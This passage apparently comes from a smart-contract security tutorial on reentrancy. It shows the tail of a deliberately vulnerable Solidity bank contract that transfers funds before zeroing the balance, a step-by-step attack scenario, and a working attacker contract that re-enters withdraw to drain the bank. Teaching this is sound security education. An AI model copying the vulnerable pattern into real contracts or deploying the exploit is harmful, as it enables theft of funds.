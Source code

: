 ```javascript
        payable(msg.sender).call{value:balance[msg.sender]}("");     // Interactions

        balance[msg.sender]=0;                                       // Effects
    }

    function banksBalance () public view returns (uint256){
        return address(this).balance;
    }
    
    function userBalance (address _address) public view returns (uint256){
        return balance[_address];
    }
}
```

**Attack Scenario**:
- **Attacker**: The attacker creates a malicious contract. See below for Attacker's Contract.
- **Malicious contract**: Calls the `deposit` function on a vulnerable contract to increase its balance by 1 eth.
- **Vulnerable contract**: It records the `transfer` and increases the attacker’s contract `balance`.
- **Malicious contract**: Calls the `withdraw` function on a vulnerable contract to extract everything they deposited.
- **Vulnerable contract**: Checks if the stored `balance` of the attacker is greater than or equal to 0.
- **Vulnerable contract**: Yes, it is greater than 0 due to the transfer in 3.
- **Vulnerable contract**: It transfers the value of the deposited `amount` to the attacker’s contract.
- **Malicious contract**: When a transfer is received, the `receive` function is called.
- **Malicious contract**: The `receive` function checks if the bank’s `balance` is higher than 1 eth, if yes it calls the `withdraw` function again on the vulnerable contract.
- **Vulnerable contract**: Allows another `withdraw` because the attacker’s `balance` has not yet been updated.
…and so (6-10) on until all 10 eths are pulled out!

**Attacker's Contract**:

```javascript
contract LetsRobTheBank {
    
    VulnerableBank bank;
    
    constructor (address payable _target) {
        bank = VulnerableBank(_target);
    }
    
    function attack () public payable {
        bank.deposit{value:1 ether}();
        bank.withdraw();
    }
    function attackerBalance () public view returns (uint256){
        return address(this).balance;
    }
   
    receive () external payable {
        if(bank.banksBalance()>1 ether){
            bank.withdraw();
        } 
    } 
}
```
